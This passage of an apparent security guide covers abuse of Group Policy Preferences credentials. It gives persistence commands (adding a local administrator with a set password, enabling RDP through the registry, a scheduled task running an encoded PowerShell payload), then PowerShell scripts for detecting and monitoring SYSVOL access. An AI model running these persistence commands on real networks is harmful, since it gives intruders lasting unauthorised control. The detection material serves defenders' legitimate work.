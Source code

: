 ### Persistence and Lateral Movement
```bash
# Use GPP credentials to establish persistence
# 1. Create new local admin accounts
net user backup_admin P@ssw0rd123 /add
net localgroup administrators backup_admin /add

# 2. Enable RDP access
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# 3. Create scheduled tasks for persistence
schtasks /create /tn "System Backup" /tr "powershell.exe -enc <base64_payload>" /sc daily /st 02:00 /ru new_local_admin /rp '$uP3r5ekr1tpass'
```

## Detection and Forensics

### Finding GPP Activity
```bash
# Event logs to monitor:
# - Event ID 4648: Explicit credential logon (GPP account usage)
# - Event ID 5140: Network share accessed (SYSVOL access)
# - Event ID 4624: Successful logon (GPP account logons)

# PowerShell detection script
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=5140} | 
Where-Object {$_.Message -match "SYSVOL"} |
ForEach-Object {
    Write-Host "SYSVOL Access: $($_.TimeCreated) - User: $($_.Properties[1].Value)" -ForegroundColor Yellow
}
```

### SYSVOL Monitoring
```powershell
# Monitor SYSVOL for unauthorized access
$watcher = New-Object System.IO.FileSystemWatcher
$watcher.Path = "C:\Windows\SYSVOL\domain\Policies\"
$watcher.Filter = "*.xml"
$watcher.IncludeSubdirectories = $true
$watcher.EnableRaisingEvents = $true

Register-ObjectEvent -InputObject $watcher -EventName Opened -Action {
    $path = $Event.SourceEventArgs.FullPath
    Write-Host "GPP file accessed: $path at $(Get-Date)" -ForegroundColor Red
}
```

## Mitigation Strategies
